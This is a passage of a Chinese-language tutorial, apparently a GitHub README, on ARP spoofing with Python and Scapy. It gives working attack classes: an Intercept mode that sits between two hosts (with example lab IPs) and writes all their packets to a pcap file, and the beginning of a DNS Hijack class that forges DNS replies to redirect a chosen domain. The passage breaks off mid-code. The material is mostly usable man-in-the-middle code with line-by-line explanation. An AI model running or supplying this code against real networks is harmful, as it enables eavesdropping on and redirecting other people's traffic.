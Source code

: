 由此 `target0` 和 `target1` 之間就完全沒有辦法通訊（IP 層以上）

當這個程式結束的時候，`ARP_Spoofing_Block` 會再 spoofing 一次 `target0` 和 `target1`，把他們的 ARP cache 回歸正常，可以正常的通訊


### Intercept

```py
from ARP_Spoofing import *

class ARP_Spoofing_Intercept(ARP_Spoofing_MITM):
    def __init__(self, target0_ip: str, target1_ip: str, pcap_filename: str):
        super().__init__(target0_ip, target1_ip)
        self.pcap_filename = pcap_filename

    def mitm2target1(self, pkg):
        print('target0 -> target1', pkg)
        wrpcap(self.pcap_filename, pkg, append=True)
        return [pkg]

    def mitm2target0(self, pkg):
        print('target1 -> target0', pkg)
        wrpcap(self.pcap_filename, pkg, append=True)
        return [pkg]


mitm = ARP_Spoofing_Intercept('10.211.55.5', '10.211.55.1', 'intercept.pcap')
mitm.start()

input()
```

這個例子在 `mitm2target1` 和 `mitm2target0` 的實作上加了一點不一樣的東西，首先就是 

```py
print('target0 -> target1', pkg)
print('target1 -> target0', pkg)
```

這兩個是用來簡短的顯示 `target0` 和 `target1` 互相傳了什麼，接著

```py
wrpcap(self.pcap_filename, pkg, append=True)
```

這是用來把攔截到的封包寫入指定的 pcap 檔

最後直接回傳

```py
return [pkg]
```

也就是不對攔截到的封包做任何改動，直接 forward

### DNS Hijack

```py
from ARP_Spoofing import *

class ARP_Spoofing_DNS_Hijack(ARP_Spoofing_MITM):
    def __init__(self, target0_ip: str, target1_ip: str, hijack_domain: str, hijack_ip: str):
        super().__init__(target0_ip, target1_ip)
        self.hijack_domain = hijack_domain
        self.hijack_ip = hijack_ip

    def mitm2target1(self, pkg):
        if (DNS in pkg) and (pkg[DNS].qr == 0) and (pkg[DNS].qd.qtype == 1) and (pkg[DNS].qd.qname == self.hijack_domain.encode() + b'.'):
            dns_resp_pkg = IP(src=pkg[IP].dst, dst=pkg[IP].src) / \
```